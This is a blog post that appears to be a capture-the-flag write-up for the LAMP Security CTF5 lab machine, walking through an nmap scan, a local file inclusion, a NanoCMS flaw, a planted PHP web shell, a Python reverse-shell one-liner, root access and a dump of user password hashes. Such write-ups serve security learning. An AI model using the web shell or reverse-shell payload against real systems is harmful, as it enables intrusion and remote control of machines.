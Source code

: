 ```yaml
---
layout: post
title:	"Lamp Security CTF5 Writeup"
date:	2016-12-20 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


LAMP security CTF5 is a funny and easy CTF with a lot of vulnerabilities. You can find info about it on [Vulnhub.com](https://vulnhub.com).

I ran nmap to see which services were open:

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf04.root-me.org
Password:

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-13 22:39 CEST
Nmap scan report for ctf04.root-me.org (212.129.29.186)
Host is up (0.078s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0400)
445/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
Device type: WAP|general purpose|media device|broadband router|PBX
Running (JUST GUESSING): Linux 2.4.X|2.6.X (95%), Sony embedded (95%), Starbridge Networks embedded (95%), Asus embedded (94%), Cisco embedded (94%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:sony:smp-n200 cpe:/o:linux:linux_kernel:2.6 cpe:/h:starbridge_networks:1531 cpe:/h:asus:rt-ac66u cpe:/h:asus:rt-n16 cpe:/h:cisco:uc320
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (95%), Linux 2.6.27 (95%), Linux 2.6.9 – 2.6.27 (95%), Sony SMP-N200 media player (95%), Linux 2.6.21 (95%), Starbridge Networks 1531 wireless ASDL modem (95%), Linux 2.6.18 (95%), Tomato 1.28 (Linux 2.6.22) (95%), Asus RT-AC66U router (Linux 2.6) (94%), Asus RT-N16 WAP (Linux 2.6) (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 15 hops
Service Info: Hosts: localhost.localdomain, 10.66.4.100; OS: Unix
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.66 seconds
~~~

How we can see there were a lot of services, but first let’s see the website on port 80. I found a Local File Inclusion (LFI) Vulnerability:

~~~
Warning: include_once(inc/pagina.php.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6

Warning: include_once() [function.include]: Failed opening ‘inc/pagina.php.php’ for inclusion (include_path=’.:/usr/share/pear:/usr/share/php’) in /var/www/html/index.php on line 6
~~~

The warning “include_once(inc/pagina.php.php)” helped me to understand I needed a null byte:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf5-writeup/img1.png)

Ok, I found a LFI but i needed to upload something for run code. On blog page there was this NanoCMS:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf5-writeup/img2.png)

I found this [vulnerability](http://www.securityfocus.com/bid/34508) for NanoCMS (DirBuster found the same file):

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf5-writeup/img3.png)

Ok I got the username and password hash:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf5-writeup/img4.png)

Authentication was successful, I created a new page containing a classic “<?php passthru($_GET[“cmd”]); ?>”:

![Screenshot]({{ site.baseurl }}/images/2016-12-20-lamp-security-ctf5-writeup/img5.png)

I got a reverse shell on netcat by using this payload:


~~~
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect((“10.0.0.1”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”])
~~~

After some local enumeration, I discovered that the OS was vulnerable to this [exploit](http://www.exploit-db.com/exploits/9479/):

~~~
bash-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-3.2# cat /passwd
cat /passwd
237709daa3a06bde0355ff93a9de0ca9
bash-3.2#
~~~

There were much interesting things in the system, for example:

* samba users enumeration
* database credentials (LFI on configuration file of another blog)
* database content:

~~~
+—–+———-+————+———————————-+
| uid | name | login | pass |
+—–+———-+————+———————————-+
| 0 | | 0 | |
| 1 | jennifer | 1241021410 | e3f4150c722e6376d87cd4d43fef0bc5 |
| 2 | patrick | 1475888924 | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 3 | andy | 1241021903 | b64406d23d480b88fe71755b96998a51 |
| 4 | loren | 0 | 6c470dd4a0901d53f7ed677828b23cfd |
| 5 | amy | 0 | e5f0f20b92f7022779015774e90ce917 |
+—–+———-+————+———————————-+
~~~

Bye bye!!!
